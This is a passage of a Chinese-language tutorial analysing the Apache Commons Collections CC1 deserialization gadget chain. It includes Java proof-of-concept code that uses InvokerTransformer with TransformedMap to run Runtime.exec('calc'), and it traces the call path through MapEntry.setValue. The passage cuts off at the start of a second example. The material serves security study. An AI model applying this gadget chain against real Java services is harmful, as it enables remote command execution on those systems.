   ```
        }
        
        public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
            return new TransformedMap(map, keyTransformer, valueTransformer);
        }
        ```

- 我们让传入的 valueTransformer 为 InvokerTransformer 对象，put 时传入的 value 为 Runtime.getRuntime(),key 任意，很容易就写出下面的代码来弹计算器：

    - ```java
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.map.TransformedMap;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC1 {
            public static void main(String[] args) {
                InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
                Map map = new HashMap();
                Map transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
                transformedMap.put(1,Runtime.getRuntime());
            }
        }
        ```

- 接下来我们就要找哪个类的方法中调用到了 `TransformedMap` 的这三个方法，其中 `transformkey()`和 `transformValue()`只在本类中进行了调用(**put方法，transformMap方法**)，`checkSetValue()`方法只在 抽象类 AbstractInputCheckedMapDecorator 的静态内部类 **MapEntry 的 setValue()方法**中 进行了调用：

    - ```java
            static class MapEntry extends AbstractMapEntryDecorator {
        
                /** The parent map */
                private final AbstractInputCheckedMapDecorator parent;
        
                protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
                    super(entry);
                    this.parent = parent;
                }
        
                public Object setValue(Object value) {
                    value = parent.checkSetValue(value);
                    return entry.setValue(value);
                }
            }
        ```

- AbstractInputCheckedMapDecorator 是 TransformedMap 的父类。对 HashMap 比较熟悉的 话对 Map.Entry 一定也不会陌生。 这里简单说一下，我们知道 Map 是用来存放键值对的，HashMap 中一对 k-v 是存放在 HashMap$Node 中的，而 Node 又实现了 Entry 接口，所以可以粗略地认为 k-v 是存放在 Entry 中的，遍历 Map 时,可以通过 entrySet()方法获取到一对对的 k-v（Map.Entry 类 型）。

- 如下代码，通过遍历 TransformedMap，再使用 setValue()传入 Runtime.getRuntime()就可以弹计算器，想想这是为什么？

    - ```java
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.map.TransformedMap;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC1 {
  ```